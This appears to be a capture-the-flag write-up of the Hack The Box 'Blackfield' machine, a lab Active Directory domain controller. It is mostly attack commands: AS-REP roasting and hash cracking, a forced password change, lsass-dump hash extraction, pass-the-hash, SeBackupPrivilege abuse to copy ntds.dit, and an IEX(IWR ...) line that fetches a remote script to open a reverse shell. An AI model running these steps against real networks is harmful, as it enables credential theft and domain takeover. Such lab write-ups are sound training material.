
HTB: Blackfield
enum4linux has nothing interesting
enum4linux-ng 10.10.10.192 -aOS: Windows 10, Windows Server 2019, Windows Server 2016OS version: '10.0'OS release: '1809'OS build: '17763'
Valid users found
kerbrute userenum -d blackfield.local /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt --dc 10.10.10.192
Getting kerberos hashes for users with no pre auth set
impacket-GetNPUsers BLACKFIELD.LOCAL/ -dc-ip 10.10.10.192 -no-pass -usersfile users.txt
Cracking the hash with hashcat
hashcat hash.txt -m 18200 /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule
Support:#00^BlackKnight

Shell as svc_backup
With these creds we cannot remote into the machine just yet. We can use rpc client and dump the users though.
User list is too long to post here and all users are "BLACKFIELD<random str of numbers>
Groups
Enterprise Read-only Domain ControllersDomain AdminsDomain UsersDomain GuestsDomain ComputersDomain ControllersSchema AdminsEnterprise AdminsGroup Policy Creator OwnersRead-only Domain ControllersCloneable Domain ControllersProtected UsersKey AdminsEnterprise Key AdminsDnsUpdateProxy
Pass pol if we decide to password spray
Domain password information: Password history length: 24 Minimum password length: 7 Maximum password age: 41 days 23 hours 53 minutes Password properties: - DOMAIN_PASSWORD_COMPLEX: true - DOMAIN_PASSWORD_NO_ANON_CHANGE: false - DOMAIN_PASSWORD_NO_CLEAR_CHANGE: false - DOMAIN_PASSWORD_LOCKOUT_ADMINS: false - DOMAIN_PASSWORD_PASSWORD_STORE_CLEARTEXT: false - DOMAIN_PASSWORD_REFUSE_PASSWORD_CHANGE: falseDomain lockout information: Lockout observation window: 30 minutes Lockout duration: 30 minutes Lockout threshold: NoneDomain logoff information: Force logoff time: not set
The profiles smb share gives us a bunch of new usernames that didnt show up in rpcclient. But they are all invalid.
Bloodhound
Using the creds we can download bloodhound data with bloodhound-python.
bloodhound-python -c ALL -u support -p '#00^BlackKnight' -d blackfield.local -dc dc01.blackfield.local -ns 10.10.10.192We can force change password for the audit2020 user

Change password
net rpc password "audit2020" "newP@ssword2022" -U "BLACKFIELD.LOCAL"/"support"%"#00^BlackKnight" -S "dc01.BLACKFIELD.LOCAL"We still cant remote in but the change did work.

We have access to a new share

This audit share seems to be a previous pentest. It contains tools and logs and zipped folders. The first log file that gave this away was the “domain_admins.txt” file showing the username administrator and with the password “ipwnedyourcompany”.
Looking through more files i find an lssas.zip file. Unzipping it we have an lssas dmp file. We can extract the contents with pypykatz
pypykatz lsa minidump lsass.DMPUsername: svc_backup
NT: 9658d1d1dcd9250115e2205d9f48400d
We can now pass the hash and remote in and get the user flag
evil-winrm -i 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
Shell as Administrator
We are svc_backup and have SeBackup enabled which we can use to access files we normally wouldnt be able to access.

I initially grabbed the sam/system file and dumped those hashes but they ended up being incorrect and I couldnt remote in as admin. I was stuck for a while at this point as I couldnt copy the ntds.dit file right away.
I found this article explaining the privilege and explaining how to copy the file.
https://notes.morph3.blog/windows/privilege-escalation/sebackupprivilegeWe first needed to download these dll's for sebackupprivilege to work
https://github.com/giuliano108/SeBackupPrivilege
Once imported we can use the privilege but we cannot copy the ntds.dit file yet because its always “in use” by windows/AD so we cannot copy it while the machine is running. The guide shows us how to create a copy of the C drive allowing us to copy it. The next challenge was using diskshadow as we didnt have an interactive shell.
Upgrading to interactive shell with ConPtyShell
https://github.com/antonioCoco/ConPtyShell
On kali machine
stty raw -echo; (stty size; cat) | nc -lvnp 3001Target machine
IEX(IWR http://10.10.14.8:8000/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.10.14.8 3001We get a fully interactive shell where diskshadow will work

Creating the clone of C:
set context persistent nowritersadd volume C: alias morph3createexpose %morph3% G:

We can see it works as we cd to G:
Using our backup privilege to copy ntds.dit from the G drive
Copy-FileSeBackupPrivilege G:\windows\NTDS\ntds.dit c:\windows\temp\ntds.dit
Confirming it worked and downloading it to our local machine

Dumping ntds.dit hashes(we were able to download the system file with reg save HKLM\System)
impacket-secretsdump -system ./SYSTEM -ntds ./ntds.dit LOCAL
evil-winrm -i 10.10.10.192 -u administrator -H 184fb5e5178480be64824d4cd53b99ee
